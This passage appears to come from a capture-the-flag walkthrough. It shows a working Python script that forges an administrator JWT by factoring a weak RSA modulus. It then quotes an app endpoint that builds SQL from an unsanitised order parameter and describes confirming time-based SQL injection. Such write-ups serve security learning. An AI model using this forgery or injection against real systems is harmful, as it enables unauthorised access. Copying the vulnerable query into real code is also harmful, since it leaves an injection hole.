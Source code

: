 Let's have a look at how we can decode our `customer` token and modify it to become `administrator`.

```python
import base64, json, jwt # pip install pyjwt
from Crypto.PublicKey import RSA
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
import sympy

token='eyJhbGciOiJSUzI1N...<SNIP>'
payload = json.loads(base64.b64decode(token.split(".")[1] + "===").decode())

# find prime factors to get the decryption exponent (d)
n = int(payload["jwk"]["n"])
p,q = list(sympy.factorint(n).keys())
e = 65537
phi_n = (p - 1) * (q - 1)
d = pow(e, -1, phi_n)

key = RSA.construct((n, e, d, p, q))
private_key = key.export_key()

data = jwt.decode(
    token,
    private_key,
    algorithms=["RS256"],
    options={"verify_signature": False}
)

# insert admin role
data["role"] = "administrator"

# encode the new data in new token
new_token = jwt.encode(data, private_key, algorithm="RS256")
print(new_token)
```

We insert our current user JWT token in our script and run it. This will then print out a new JWT that has the `administrator` role and should be able to access the admin panel. Further along in the code of `app.py` there is also an SQL Injection vulnerability in the `admindashboard` endpoint.

```python
# added option to order the reservations
order_query = request.args.get('o', '')

sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
```

## Foothold
Let's perform a search query on the admin dashboard and intercept the request with BurpSuite. We can confirm the SQL Injection by making the server sleep for several seconds.
